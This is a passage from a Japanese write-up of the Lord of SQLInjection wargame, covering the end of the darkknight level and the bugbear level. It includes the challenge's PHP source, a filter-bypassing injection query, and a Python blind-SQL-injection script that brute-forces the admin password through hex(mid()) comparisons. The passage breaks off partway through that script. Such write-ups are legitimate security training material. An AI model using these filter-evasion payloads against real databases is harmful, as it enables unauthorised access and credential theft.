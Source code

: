 ``` python
            ans += chr(char)
            break
print(ans)
```
### 回答
得られたパスワードを使う．
``` sql
select id from prob_darkknight where id='guest' and pw='1c62ba6f' and no=
```

## bugbear

### 問題
``` php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no])) exit("No Hack ~_~"); 
  if(preg_match('/\'/i', $_GET[pw])) exit("HeHe"); 
  if(preg_match('/\'|substr|ascii|=|or|and| |like|0x/i', $_GET[no])) exit("HeHe"); 
  $query = "select id from prob_bugbear where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_bugbear where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("bugbear"); 
  highlight_file(__FILE__); 
?>
```
### 考察
pwの文字数は以下のように確かめる．
``` sql
query : select id from prob_bugbear where id='guest' and pw='' and no=100/**/||/**/id/**/in/**/("admin")/**/&&/**/length(pw)/**/in/**/(8)#
```
先ほどのスクリプトを用いたいが，orがエスケープされるのでord関数が使えない．
hex関数を用いるとよい．
以下がスクリプト．
``` python
import requests
import string

url = 'https://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php'

mycookie = {
    'PHPSESSID': ''
}

letters = string.digits + string.ascii_letters
ans = ""

for i in range(1, 9):
    for letter in letters:
        response = requests.get(url + '?pw=1&no=1/**/||/**/id/**/in/**/("admin")/**/' + "%26" + "%26" + '/**/hex(mid(pw,{index},1))/**/in/**/(hex("'.format(index = i) + letter + '"))%23', cookies=mycookie)
        if 'Hello admin' in response.text:
            ans += letter
```
